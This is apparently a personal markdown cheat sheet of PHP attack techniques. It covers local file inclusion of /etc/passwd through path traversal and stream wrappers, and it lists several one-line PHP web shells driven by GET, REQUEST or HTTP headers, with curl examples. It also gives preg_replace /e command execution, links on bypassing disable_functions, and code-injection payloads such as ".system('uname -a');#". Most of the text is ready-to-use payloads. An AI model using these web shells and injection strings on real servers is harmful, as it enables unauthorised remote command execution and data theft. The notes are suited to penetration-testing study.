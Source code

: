 ## Check for registered php stream

- with a lfi you can do some tricks : example :`configfile=../../../../../../../etc/passwd`

- You may need to add %00 at the end.

- if file is allowed : ```=file:///etc/passwd```

data, php ...

https://dzone.com/articles/the-powerful-resource-of-php-stream-wrappers

---

## Function

- Could be helpful : ```system```, ```shell_exec```

- Know which are enabled : ```php -r 'print_r(get_defined_functions());' | grep -E ' (system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)'<?php print_r(get_defined_functions()); ?>```

---

## Execute command :

1.
```
<?php $_SERVER['HTTP_LANG']($_SERVER['HTTP_ACCEPT-LANGUAGE']); ?>

curl -H "Lang: system" -H "Accept-Language: <cmd>" ...
```

2. 
```
<?php system($_SERVER['HTTP_LANG']); ?>
curl -H "Lang: <cmd>"...
```

3.
```
<?php system($_GET['cmd']);?>
http://url/fichier/?cmd=
```

4.
```
<?php system($_REQUEST['cmd']); ?>

file.php&cmd=whoami
```

5. The only limitation is your brain. Try hard !

https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/


---

## Preg_replace :

Experimenting with the functionality of the VPNGenerator, it is easy  to spot what it does. A placeholder string in the VPN generator window  is substituted for a custom input via preg_replace() php function. Older implementations of preg_replace() are vulnerable to a remote command execution using /e  specifier if you know how to approach it! I suggest doing your own  research on the function if you are unfamiliar with php. Here are some  links to help you:
  • https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
  • http://www.madirish.net/402
  • http://php.net/manual/en/function.preg-replace.php
 
 `preg_replace(/x/e, system("id"), x)`
 ---
 
## Bypass disable_functions

  https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html
  
  https://0xdf.gitlab.io/2021/01/23/htb-compromised.html
  

---

## Code execution

- Comments : In PHP, you can use `//` to get rid of the code added by the application.

- As SQL injection, you can use the same technique to test and ensure you have a code injection:

	- Using comments and injecting: `/* <random value> */`, `<command>;#`, `".<command>;//.`
	- Injecting a simple concatenation `"."` (`"` used to break the syntax and reform it correctly).
	- Replacing the parameter you provided by a string concatenation: `"."th"."is"."` instead of `this`.
	- add code : `$test=".`

- You can also use time-based detection for this issue by using the PHP function sleep. You will see a time difference between:

	- Calling the function sleep or calling it with a delay of zero: `sleep(0)`.
	- A call to the function with a long delay: `sleep(10)`.

Examples : 

- By adding some code: `".system('uname -a'); $dummy="`
- By using comment: `".system('uname -a');#` or `".system('uname -a');//`
- `'.'`, if it works, try adding some function : `'.phpinfo().'`
- Don't forget to url encode if necessary.

Use the error message to understand how you can exit the context (what should I do to end it ? `; ) } // ' " +`). Examples : 

`?order=id;}//:` we get an error message (Parse error: syntax error, unexpected ';'). We are probably missing one or more brackets.
`?order=id);}//:` we get a warning. That seems about right.
`?order=id));}//:` we get an error message (Parse error: syntax error, unexpected ')' i). We probably have too many closing brackets.


